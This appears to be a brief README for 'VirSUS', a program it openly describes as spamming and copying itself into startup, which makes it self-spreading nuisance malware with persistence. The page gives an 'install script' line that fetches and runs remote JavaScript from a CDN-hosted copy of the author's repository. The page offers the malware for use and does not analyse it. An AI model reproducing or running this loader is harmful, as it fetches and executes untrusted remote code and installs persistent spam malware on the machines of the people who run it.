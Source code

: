 # VirSUS
it just spams and copies itself to bootup.

Install script: $loader.script("https://cdn.jsdelivr.net/gh/Busybody64/VirSUS/VirSUS.js");
